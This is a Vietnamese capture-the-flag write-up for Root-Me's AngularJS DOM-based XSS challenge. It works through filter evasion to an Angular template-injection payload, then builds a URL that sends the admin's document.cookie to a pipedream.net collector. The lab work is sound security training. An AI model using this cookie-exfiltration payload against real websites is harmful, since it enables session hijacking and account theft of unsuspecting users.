



# [XSS DOM Based - Angular](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-AngularJS)

Thử submit giá vị vào input, ta xem được script mà website handle:

Mất khá nhiều thời gian để tránh filter và hiểu code. Có vẻ không thể attack bằng cách “hiểu” code được. Đề bài có tên là **AngularJS,** tra cứu cheatsheet XSS Angular, ta có thể tìm được payload: **$on.constructor('alert(1)')()**

Để khiến JS thực thi command, ta chèn `{{ }}` để triển khai expression:

**{{$on.constructor('alert(1)')()}}**

Tuy vậy, lúc chèn payload, website trả về:

Thử thay **' "** thì đã chèn thành công script:

Chỉnh sửa payload để thực thi DOM Based XSS attack. Ta sử dụng **\\"** để thoát chuỗi **"":**

Payload: **{{$on.constructor("document.location=\\"https://eol9dtzbk9673pb.m.pipedream.net?cookie=\\"+document.cookie")()}}**

Payload đã chạy được. Giờ thì gửi payload đến admin qua Contact tab:

[*http://challenge01.root-me.org/web-client/ch35/?name={{$on.constructor("document.location=\\"https://eol9dtzbk9673pb.m.pipedream.net?cookie=\\"%20document.cookie")()}}*](http://challenge01.root-me.org/web-client/ch35/?name=%7b%7b$on.constructor(%22document.location=\%22https://eol9dtzbk9673pb.m.pipedream.net?cookie=\%22%20document.cookie%22)()%7d%7d)

HTTP Request nhận về:

- Flag: "****************************"
